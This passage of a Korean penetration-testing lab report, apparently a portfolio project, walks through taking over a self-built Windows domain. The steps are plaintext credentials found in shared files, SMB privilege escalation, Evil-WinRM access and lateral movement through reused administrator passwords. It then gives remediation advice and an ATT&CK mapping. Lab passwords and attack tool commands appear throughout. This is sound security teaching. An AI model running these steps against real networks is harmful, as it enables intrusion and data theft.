

> 📷 `cat server_info.txt` → **Administrator(`qw@12`)**, DB(`sa/Qwer@1234`) 계정이 모두 **평문 기록**. 일반 계정 하나로 관리자 자격증명 획득.

---

### 6️⃣ Administrator 권한으로 SMB 재접속 (권한 상승)

> 🎯 **진단 의도:** 탈취한 관리자 자격증명이 실제로 권한 상승으로 이어지는지 검증한다.

**▸ 관리자 계정으로 SMBMap 재실행**



> 📷 `smbmap -u Administrator` → **Status: ADMIN!!!** 전체 공유(`ADMIN$·C$·Company`)에 READ/WRITE 확보. 평문 파일 하나가 서버 전체 통제권으로 직결됨을 증명.

---

### 7️⃣ Evil-WinRM 원격 접속 & 도메인 계정 확인

> 🎯 **진단 의도:** 확보한 관리자 권한으로 원격 명령 실행이 가능한지, 도메인 확산의 발판이 되는 계정이 있는지 파악한다.

#### Windows Server 원격 접속



> 📷 `evil-winrm -i 192.168.12.10` → WinRM(5985) 원격 PowerShell 접속 성공.

---

#### 도메인 계정 조사



> 📷 `net user domainuser /domain` → `domainuser`가 **Domain Users** 그룹 소속 → 도메인 전체 접근 가능한 계정임을 확인.

---

#### 서버 장악 확인



> 📷 `dir C:\` → 서버 파일시스템 전체 열람 → Windows Server 완전 장악.

---

### 8️⃣ 클라이언트로 횡적 이동 (Lateral Movement)

> 🎯 **진단 의도:** 서버에서 얻은 계정이 다른 시스템에서도 통하는지(계정 재사용) 검증해 확산 범위를 진단한다.

#### 클라이언트 포트 스캔



> 📷 `nmap 192.168.13.10`(Client) → 445 open 확인.

---

#### 동일 계정으로 클라이언트 접속 (계정 재사용 🔴)



> 📷 **동일한 Administrator 계정**으로 Client에 Evil-WinRM 접속 성공 → 계정 재사용이 횡적 이동을 무제한 허용.

---

#### 로그온 세션 확인



> 📷 `query user` → 클라이언트에 **domainuser 세션이 유지 중**임을 확인 → 다음 단계의 발판 확보.

---

### 9️⃣ domainuser로 내부 자료 접근 → 도메인 전체 장악 🎯

> 🎯 **진단 의도:** 최종 목표인 내부 업무 자료에 실제로 도달 가능한지 확인해 침해의 최종 영향을 입증한다.

#### domainuser 권한으로 클라이언트 공유 진단



> 📷 `smbmap -u domainuser`(Client) → `Shared` 폴더에 **READ/WRITE** 권한 확인.

---

#### 내부 업무 자료 열람 — 도메인 장악 완료



> 📷 `Shared` 접속 → **공지사항·업무자료·IT 폴더** 열람 성공. 최초 평문 계정 1건에서 시작한 공격이 **도메인 내 시스템 전체 장악**으로 완결됨.

---

## 🛡️ 취약점 상세 분석 및 대응 방안

> 진단 관점에서 각 취약점의 **위험도 · 원인 · 비즈니스 임팩트 · 대응 방안**을 정리했습니다.

### ① 민감정보 평문 저장 
> **🔴 위험도 : Critical**

| 항목 | 내용 |
|------|------|
| **원인** | `setup.sh`, `server_info.txt`에 계정/비밀번호가 평문 저장 |
| **비즈니스 임팩트** | 웹서버 침해 1건이 곧 **내부망 계정 전면 노출 → 도메인 장악**으로 직결. 랜섬웨어 배포 거점화, 전사 기밀·개인정보 유출로 이어질 수 있음 |

```bash
# ❌ 취약                                # ✅ 대응 — 환경변수/Vault 분리
-o username=localuser,password=Qwer@1234   -o username=${SMB_USER},password=${SMB_PASS}
```

---

## 대응 방안

- 자격 증명은 환경변수 또는 **HashiCorp Vault** 등 시크릿 관리 도구로 분리
- 민감 파일은 SMB 공유 폴더 외부에 보관, 공유 접근은 **최소 권한 원칙** 적용

---

### ② SMB 공유 폴더 과도한 접근 권한 
> **위험도 : 🟠 High**

| 항목 | 내용 |
|------|------|
| **원인** | 일반 계정(`localuser`)이 IT 부서 폴더의 관리자 정보 파일까지 열람 가능 |
| **비즈니스 임팩트** | 낮은 권한 계정 하나로 상위 권한 자격증명 획득 → 권한 상승 경로 제공 |

**대응 방안**
- 부서별 폴더에 **ACL** 적용, 해당 부서 계정만 접근 허용
- SMB 접근 로그 수집 및 비정상 접근(대량 열람 등) 탐지 규칙 설정

---

## ③ 관리자 계정 재사용 (Credential Reuse) 
> **위험도 : 🟠 High**

| 항목 | 내용 |
|------|------|
| **원인** | Windows Server와 Client가 **동일 Administrator 비밀번호** 사용 |
| **비즈니스 임팩트** | 계정 1개 탈취로 도메인 내 모든 시스템 접속 → 횡적 이동이 무제한 |

**대응 방안**
- **LAPS**(Local Administrator Password Solution)로 시스템별 관리자 비밀번호 개별 관리
- 도메인 관리자와 로컬 관리자 계정 분리 운영

---

## ④ WinRM 과도한 방화벽 허용 
> **위험도 : 🟡 Medium**

| 항목 | 내용 |
|------|------|
| **원인** | Bastion에서 내부 서버·클라이언트 WinRM(5985) 전면 허용 |
| **비즈니스 임팩트** | Bastion 장악 시 즉시 내부망 전체 원격 장악 가능 |

**대응 방안**
- WinRM 허용 소스 IP를 관리 서버로 최소화, **MFA** 적용 검토

---

## 🗺️ MITRE ATT&CK 매핑

> 본 프로젝트의 공격 단계를 국제 표준 전술·기법 코드로 매핑했습니다.

| Phase | 공격 단계 | ATT&CK Technique |
|:-----:|-----------|------------------|
| 1 | 피싱 링크로 토큰 탈취 | `T1566.002` Phishing: Spearphishing Link |
| 1 | 애플리케이션 토큰 악용 | `T1550.001` Application Access Token |
| 1 | JWT 위조 (Algorithm Confusion) | `T1606` Forge Web Credentials |
| 1 | 웹셸 업로드 | `T1505.003` Server Software Component: Web Shell |
| 1 | 크론 백도어 (지속성) | `T1053.003` Scheduled Task/Job: Cron |
| 2 | 평문 계정 파일 탈취 | `T1552.001` Unsecured Credentials: Credentials In Files |
| 2 | SMB 공유 정찰 | `T1135` Network Share Discovery |
| 2 | 공유 드라이브 데이터 수집 | `T1039` Data from Network Shared Drive |
| 2 | 탈취 계정 재사용 | `T1078` Valid Accounts |
| 2 | WinRM 원격 실행 | `T1021.006` Remote Services: WinRM |
| 2 | SMB 기반 횡적 이동 | `T1021.002` SMB/Windows Admin Shares |

---

## 📝 결론 및 배운 점

```text
처음에는 SMB 공격이 단순히 파일 공유를 열어보는 수준일 거라 생각했지만, 직접 인프라를 구축하고 침투를 실행하면서 **웹서버에 남겨진 스크립트 파일 하나가 도메인 전체 장악으로 이어지는 흐름**을 직접 확인했습니다.
특히 공격 대상 환경을 **직접 구축한 뒤 공격**해보니, 관리자가 편의를 위해 스크립트에 계정을 적어둔 것, 공유 폴더 권한을 넉넉히 준 것, 여러 서버에 같은 비밀번호를 쓴 것 — 각각은 사소해 보여도 **연결되면 전체가 열리는 공격 경로**가 된다는 걸 체감했습니다.
이 경험 이후 시스템을 볼 때 *"이 계정은 어디까지 접근 가능한가"*, *"이 파일이 노출되면 무엇이 나오는가"* 를 먼저 생각하는 습관이 생겼고, **공격자 관점과 방어자 관점을 함께 사고**하는 것이 진단 업무의 핵심임을 배웠습니다.
```

---

> ⚠️ 본 문서의 코드·시나리오는 **교육 및 실습 목적**의 격리된 랩 환경에서 수행되었습니다.
> 문서 내 모든 계정·비밀번호·토큰(`Qwer@1234`, JWT 등)은 **실습을 위해 임의 생성한 값**이며 실제 운영 정보가 아닙니다. IP는 사설(RFC1918) 랩 주소입니다.
> 허가받지 않은 시스템에 대한 사용은 법적으로 금지됩니다.
